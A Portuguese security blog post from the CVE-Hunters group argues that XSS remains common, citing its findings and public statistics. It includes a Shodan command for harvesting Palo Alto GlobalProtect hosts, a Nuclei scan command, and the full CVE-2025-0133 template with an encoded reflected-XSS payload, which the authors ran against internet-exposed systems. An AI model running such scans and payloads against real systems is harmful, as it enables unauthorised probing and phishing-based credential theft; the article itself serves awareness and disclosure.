










## Introdução: “XSS? Ainda?”

<p style="text-align: justify;">Em pleno 2025, ainda estamos falando de XSS? Sim, ainda estamos. Mesmo com o uso de frameworks modernos, WAFs inteligentes e uma infinidade de artigos explicando como mitigar essa ameaça, o Cross-Site Scripting (XSS) continua presente, sorrateiro, persistente e muitas vezes negligenciado.</p>

<p style="text-align: justify;">O XSS é uma das primeiras vulnerabilidades abordadas em cursos introdutórios de segurança ofensiva e testes de invasão em aplicações web. Com um payload simples, instrutores demonstram como essa falha é trivial de ser explorada, evidenciando o perigo e a facilidade de sua exploração.</p>

<p style="text-align: justify;">Mas o que é XSS, afinal? De acordo com a <b><a href="https://owasp.org/www-community/attacks/xss/" target="_blank">OWASP</a></b>, ataques de Cross-Site Scripting são um tipo de injeção na qual scripts maliciosos são inseridos em sites vulneráveis. Esses ataques ocorrem quando um invasor usa uma aplicação web para enviar código malicioso, geralmente scripts executados no navegador, para outro usuário. As falhas que tornam esses ataques possíveis são bastante comuns e surgem sempre que uma aplicação web incorpora a entrada do usuário na saída gerada sem realizar a validação ou codificação apropriadas.</p>

<p style="text-align: justify;">Também de acordo com a <b><a href="https://owasp.org/www-community/attacks/xss/" target="_blank">OWASP</a></b>, o navegador da vítima não possui mecanismo para distinguir scripts legítimos de maliciosos. Assim, ao receber e executar o código, ele confia que ele veio de uma fonte segura. Como resultado, o invasor pode acessar cookies, tokens de sessão e outras informações confidenciais armazenadas pelo navegador, bem como reescrever o conteúdo da página ou redirecionar o usuário para sites maliciosos disfarçados de legítimos.</p>


## CVE-Hunters vs XSS

<p style="text-align: justify;">O grupo <b><a href="https://github.com/Sec-Dojo-Cyber-House/cve-hunters" target="_blank">CVE-Hunters</a></b> foi criado em novembro de 2024 como uma iniciativa conjunta entre alunos e um professor, com um objetivo claro: identificar vulnerabilidades (CVEs) em projetos de código aberto. A proposta era proporcionar aos alunos experiência prática na busca por falhas em ambientes reais, indo além de laboratórios controlados ou desafios de Capture The Flag (CTF).</p>

<p style="text-align: justify;">Desde então, o grupo analisou uma ampla gama de projetos, desde pequenos sistemas comunitários até aplicações amplamente utilizadas nos setores público e educacional. Ao longo do caminho, um padrão se destacou: a frequência com que vulnerabilidades de <b>Cross-Site Scripting (XSS)</b> foram encontradas.</p>

<p style="text-align: justify;">Essa recorrência levanta uma questão importante: os desenvolvedores pararam de tratar o XSS com a devida seriedade? Apesar de ser uma falha amplamente documentada e conhecida há anos, ela ainda aparece com frequência. Mesmo em organizações com processos de desenvolvimento maduros, vulnerabilidades de XSS continuam a aparecer devido à complexidade dos fluxos de entrada e saída, ao uso de bibliotecas legadas ou à falta de testes contextualizados.</p>

<p style="text-align: justify;">Atualmente, o grupo tem <b>135 vulnerabilidades reportadas</b>, <b>53 das quais já foram oficialmente registradas como CVEs</b>. Do total de vulnerabilidades descobertas, <b>104 são do tipo XSS</b>, o que representa uma proporção significativa e preocupante.</p>


<p style="text-align: justify;">Foram identificadas 62 ocorrências do tipo armazenado e 42 do tipo refletido, revelando uma distribuição relativamente equilibrada.</p>



<p style="text-align: justify;">Essas estatísticas por si só reforçam a ideia de que o XSS ainda é um problema real, frequentemente ignorado durante o desenvolvimento, e que continua a merecer atenção, tanto da comunidade técnica quanto dos desenvolvedores responsáveis ​​por aplicativos em produção.</p>

## Experiência prática

<p style="text-align: justify;">Você pode estar pensando: "Ok, o grupo <b><a href="https://github.com/Sec-Dojo-Cyber-House/cve-hunters" target="_blank">CVE-Hunters</a></b> encontrou muitos XSS em projetos de código aberto, mas quem pode dizer que grandes empresas também são vulneráveis?"</p>

<p style="text-align: justify;">Vamos fazer um experimento rápido com um dos XSS mais recentes divulgados durante a escrita deste artigo: <b><a href="https://security.paloaltonetworks.com/CVE-2025-0133" target="_blank">CVE-2025-0133</a>.</b> Um XSS refletido nos produtos de gateway e portal GlobalProtect, recursos do PAN-OS da Palo Alto Networks, publicado em 14 de maio de 2025.</p>

<p style="text-align: justify;">Com uma simples consulta no Shodan, podemos verificar a estimativa de uso deste produto no mundo.</p>



<p style="text-align: justify;">No entanto isso não significa que todos estão vulneráveis. Vamos ao experimento para este artigo.</p>

<p style="text-align: justify;">Primeiro, extraímos alguns resultados do Shodan, uma pequena amostragem do montante total:</p>

```bash
shodan search --fields hostnames 'http.title:"GlobalProtect Portal" port:443' | grep -v '^$' > globalprotect-hostnames.txt
```



<p style="text-align: justify;">Depois disso, podemos usar o <b><code>Nuclei</code></b> para testar essa vulnerabilidade e automatizar o teste:</p>

```bash
nuclei -l globalprotect-hostnames.txt -t CVE-2025-0133.yaml
```



<p style="text-align: justify;">Template do nuclei utilizado para realizar o scan: <b><a href="https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2025/CVE-2025-0133.yaml" target="_blank">CVE-2025-0133</a></b>.</p>

```bash
id: CVE-2025-0133

info:
  name: PAN-OS - Reflected Cross-Site Scripting
  author: xbow,DhiyaneshDK
  severity: medium
  description: |
    A reflected cross-site scripting (XSS) vulnerability in the GlobalProtect™ gateway and portal features of Palo Alto Networks PAN-OS® software enables execution of malicious JavaScript in the context of an authenticated Captive Portal user's browser when they click on a specially crafted link.The primary risk is phishing attacks that can lead to credential theft—particularly if you enabled Clientless VPN.
  reference:
    - https://security.paloaltonetworks.com/CVE-2025-0133
    - https://hackerone.com/reports/3096384
  classification:
    epss-score: 0.00102
    epss-percentile: 0.29276
  metadata:
    verified: true
    max-request: 1
    shodan-query:
      - http.favicon.hash:"-631559155"
      - cpe:"cpe:2.3:o:paloaltonetworks:pan-os"
    fofa-query: icon_hash="-631559155"
    product: pan-os
    vendor: paloaltonetworks
  tags: hackerone,cve,cve2025,xss,panos,global-protect

http:
  - raw:
      - |
        GET /ssl-vpn/getconfig.esp?client-type=1&protocol-version=p1&app-version=3.0.1-10&clientos=Linux&os-version=linux-64&hmac-algo=sha1%2Cmd5&enc-algo=aes-128-cbc%2Caes-256-cbc&authcookie=12cea70227d3aafbf25082fac1b6f51d&portal=us-vpn-gw-N&user=%3Csvg%20xmlns%3D%22http%3A%2F%2Fwww.w3.org%2F2000%2Fsvg%22%3E%3Cscript%3Eprompt%28%22XSS%22%29%3C%2Fscript%3E%3C%2Fsvg%3E&domain=%28empty_domain%29&computer=computer HTTP/1.1
        Host: {{Hostname}}

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - '<script>prompt("XSS")</script>'
          - 'authentication cookie'
        condition: and

      - type: status
        status:
          - 200
# digest: 490a0046304402202037be3477c0e16d7bb7cfb9874bf1cb6894a1d8035d64115db72607a539a54502203a1dac9b97514abef71fdb6a73d681f64f788f43605f2235f1fbfd26f6ddac2c:922c64590222798bb761d5b6d8e72950
```

<p style="text-align: justify;">Obtivemos um número significativo de hosts vulneráveis. Em seguida, tentamos identificar, entre esses resultados, quaisquer hosts que tivessem um VDP público, para que pudéssemos notificá-los sobre a vulnerabilidade. Essa etapa é um pouco complexa de ser realizada manualmente, por isso utilizamos inteligência artificial para cruzar os domínios extraídos do <b><code>Shodan</code></b> com informações disponíveis na internet sobre empresas que possuem programas de recompensa por bugs ou VDPs abertos.</p>

<p style="text-align: justify;">Durante esta pesquisa, encontramos apenas dois domínios com VDPs públicos — um de uma grande empresa do setor privado e o outro de uma agência governamental. Ambos estão localizados nos Estados Unidos: um com um VDP hospedado no BugCrowd e o outro com um VDP privado, acessível por e-mail.</p>

<p style="text-align: justify;">Relatamos ambas as vulnerabilidades às empresas de forma responsável.</p>





<p style="text-align: justify;">É importante destacar que a amostra testada representa apenas uma fração dos sistemas expostos.</p>

## Mais números

<p style="text-align: justify;">Se você ainda não está convencido pela quantidade de XSS que temos por aí, podemos fazer outra pesquisa simples no <i>GitHub Advisory Database</i>, onde obtemos um retorno de mais de <b>31.611 ocorrências relacionadas a XSS</b>.</p>

Se ainda não está convencido da quantidade de XSS que temos por ai, podemos fazer mais uma pesquisa simples no *GitHub Advisory Database*  onde temos um retorno de mais de **31.611 ocorrências relacionadas a XSS**.



<p style="text-align: justify;">Uma busca no banco de dados de <b>CVE (Common Vulnerabilities and Exposures)</b> também revela um número significativo de vulnerabilidades registradas relacionadas ao XSS, demonstrando sua recorrência em diferentes sistemas, aplicações e contextos ao longo dos anos.</p>



<p style="text-align: justify;">Além disso, uma busca realizada na plataforma <b>HackerOne</b>, amplamente reconhecida no ecossistema de <i>Bug Bounty</i>, resulta em um total de <b>2.225 relatórios públicos</b> envolvendo vulnerabilidades de Cross-Site Scripting. Esses dados reforçam não apenas a prevalência do XSS, mas também o interesse contínuo da comunidade de segurança em explorá-lo e relatá-lo, mesmo em ambientes com altos padrões de segurança.</p>



## O que dá para fazer com um XSS além do alert(1)?

<p style="text-align: justify;">O famoso alert(1) costuma ser o primeiro exemplo usado para demonstrar uma falha de XSS. No entanto, os impactos reais dessa vulnerabilidade vão muito além de uma simples janela de alerta. Abaixo, listamos algumas ações maliciosas clássicas e conhecidas que podem ser realizadas por um invasor ao explorar uma falha de Cross-Site Scripting:</p>

<p style="text-align: justify;">
  <ul>
    <li><b>Roubo de Cookie</b>, (se o cookie não estiver protegido com o sinalizador HttpOnly);</li>
    <li><b>Sequestro de Sessão</b>, assumindo a identidade da vítima em aplicativos autenticados;</li>
    <li><b>Keylogging</b>, capturando tudo o que o usuário digita na página comprometida;</li>
    <li><b>Redirecionamentos Maliciosos</b> para páginas falsas, com o objetivo de aplicar golpes;</li>
    <li><b>Execução de ações em nome do usuário</b>, como enviar mensagens, alterar configurações ou excluir dados;</li>
    <li><b>Execução Remota de Código</b>, embora rara e dependendo do contexto específico, pode ser possível obter acesso remoto a o sistema a partir de um XSS.</li>
    </ul>
</p>

<p style="text-align: justify;">Esses exemplos mostram que, embora o XSS seja uma vulnerabilidade frequentemente subestimada, ele pode ter consequências graves, especialmente quando explorado em aplicativos com dados confidenciais ou com alto nível de privilégio para o usuário afetado.</p>

## Conclusão

<p style="text-align: justify;">O XSS não morreu; talvez tenha sido apenas ignorado diante de novas ameaças mais "glamourosas". Mas sua presença silenciosa continua a oferecer uma superfície de ataque explorável, muitas vezes com impacto crítico.</p>

<p style="text-align: justify;">Apesar de frequentemente ser classificado como uma vulnerabilidade de gravidade <i>média</i> ou mesmo <i>baixa</i>, <b>o XSS não deve ser subestimado</b>. <b>Seu impacto pode ser significativo, especialmente quando envolve roubo de cookies, sequestro de sessão ou redirecionamento para páginas maliciosas. E o que é mais perigoso: as proteções tradicionais nem sempre são suficientes para impedir que o usuário seja induzido a clicar naquele site de phishing que está usando uma URL legítima com uma vulnerabilidade XSS</b>.</p>

<p style="text-align: justify;">Afinal, o XSS geralmente depende de um único clique e, nesse cenário, <b>o elo mais fraco geralmente é o próprio usuário</b>. Não importa quão robusta seja sua estrutura ou quão bem configurada esteja sua WAF: se o invasor conseguir criar um link malicioso convincente, basta uma ação desatenta da vítima para que o ataque se concretize.</p>

<p style="text-align: justify;"><b>Enquanto nós confiamos em estruturas e WAFs, o invasor confia em nossa falta de cuidado e na curiosidade do usuário.</b></p>

Apesar de muitas vezes ser classificado como uma vulnerabilidade de severidade *média* ou até *baixa*, o **XSS não deve ser subestimado**. Seu impacto pode ser significativo, especialmente quando envolve o roubo de cookies, sequestro de sessão ou redirecionamento para páginas maliciosas. E o mais perigoso: **nem sempre as proteções tradicionais são suficientes para impedir que o usuário seja enganado e clique naquele phishing que está utilizando uma URL legítima com vulnerabilidade de XSS.**

Afinal, o XSS frequentemente depende de um simples clique, e nesse cenário, **o elo mais fraco costuma ser o próprio usuário**. Não importa o quão robusto seja seu framework ou quão bem configurado esteja seu WAF: se o atacante conseguir criar um link malicioso convincente, basta uma ação desatenta da vítima para que o ataque se concretize.

**Enquanto confiamos em frameworks e WAFs, o atacante confia no nosso descuido,e na curiosidade do usuário.**



## Escrito por

[](https://www.linkedin.com/in/nmmorette) [Natan Maia Morette](https://www.linkedin.com/in/nmmorette) 

## Colaboradora

[](https://www.linkedin.com/in/karina-gante/) [Karina Gante](https://www.linkedin.com/in/karina-gante/)

## Parceria

[](https://hacktiba.github.io/) Esse post foi feito em parceria com **[Hacktiba](https://hacktiba.github.io/)** para o Pulse 07.

> *Por: [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)*


